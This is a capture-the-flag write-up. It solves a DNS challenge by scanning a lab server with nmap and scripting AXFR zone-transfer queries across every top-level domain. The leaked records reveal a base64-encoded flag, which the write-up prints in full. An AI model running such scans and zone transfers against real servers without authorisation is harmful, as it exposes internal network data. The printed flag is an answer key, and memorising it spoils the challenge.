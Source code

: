 # Dean's Transfers

## Description
Level: medium<br/>
Author: PS

Dean just launched his taxi business named Dean's Transfers.

For his website, he first wanted to register `deans-transfers.com`, but then found out there are so many fancy top-level
domains out there. You found a service running on his server - find a flag there!

The service is running on port 2211 on 46.101.107.117.

## Solution

For this challenge we are given a remote service as well as a hint that we have to find a domain name. I immediately
thought that the service would be a DNS server. To confirm this I performed a check using nmap:

``` 
$ nmap 46.101.107.117 -p 2211 -sV

PORT     STATE SERVICE VERSION
2211/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u6 (Debian Linux)
```

That seems to be correct. Now it's time to find the correct TLD for the name `deans-transfers`. To do this I wrote a
script that enumerates all TLDs and performs an AXFR query.

```python
import subprocess

# all TLDs
endings = []

for end in endings:
    cmd = f"drill AXFR deans-transfers.{end} @46.101.107.117 -p2211 "
    res = subprocess.getoutput(cmd)
    print(res)
```

One TLD was interesting:

```
;; ANSWER SECTION:
;; AUTHORITY SECTION:
deans-transfers.express.	302400	IN	SOA	deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
```

I reran the command and got the flag as a base64 encoded subdomain:

```
$ drill AXFR deans-transfers.express @46.101.107.117 -p2211

deans-transfers.express.	302400	IN	SOA	deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
deans-transfers.express.	302400	IN	NS	ns.deans-transfers.express.
aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9.deans-transfers.express.	302400	IN	A	10.0.0.8
base64decode.deans-transfers.express.	302400	IN	A	10.0.13.9
ns.deans-transfers.express.	302400	IN	A	10.0.0.2
deans-transfers.express.	302400	IN	SOA	deans-transfers.express. admin.deans-transfers.express.deans-transfers.express. 2 302400 43200 302400 302400
```

With `echo "aGUyMDIye2QzNG5fZHIxdjNzX3lvdV8zdjNyeXdoM3IzISF9" | base64 -d` we get the flag `he2022{d34n_dr1v3s_you_3v3rywh3r3!!}`.

